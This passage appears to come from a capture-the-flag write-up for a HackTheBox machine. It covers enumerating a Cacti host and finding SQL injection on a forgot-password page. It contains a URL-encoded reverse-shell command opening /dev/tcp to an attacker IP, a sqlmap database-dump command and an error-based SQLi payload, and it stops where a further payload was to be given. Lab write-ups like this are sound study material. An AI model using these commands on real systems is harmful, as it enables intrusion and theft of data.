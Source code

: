 `http://cacti.monitorsthree.htb/cacti/include/vendor/csrf/csrf-secret.php`

`http://cacti.monitorsthree.htb/cacti/cmd_realtime.php?1+1&&%3b0%3C%26196%3Bexec%20196%3C%3E%2Fdev%2Ftcp%2F10.10.11.30%2F1674%3B%20sh%20%3C%26196%20%3E%26196%202%3E%26196`

They have these contents:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250117153315.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250117153335.png)

Nothing too useful to get credentials or bypass that login page, so, I went back to the main website and found the following:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250117153418.png)

We got a `Forgot Password?` site:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250117153441.png)

We can try different things here, let's test [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/CROSS SITE SCRIPTING/CROSS SITE SCRIPTING (XSS).md|XSS]]:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250117153528.png)

Not working, what about [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/INJECTIONS/SQLI/SQL INJECTION (SQLI).md|SQLI]]:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250117153712.png)

It worked! Let's start exploitation.

# EXPLOITATION
---

Since we already know SQLI is possible on the `Forgot_password.php` site, let's use sqlmap to automatize the process, we need to capture the request using burp and use the following command:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250117154018.png)

Nice, let's use:

`sqlmap -r request.req -dbms=mysql --dump`


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250117160216.png)

Sqlmap executed very slow, so, I found out there was an error message, being the following:


`admin' and extractvalue(1,concat('~',database()))#`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250117160345.png)

Since we got an error, we can use the following payload:
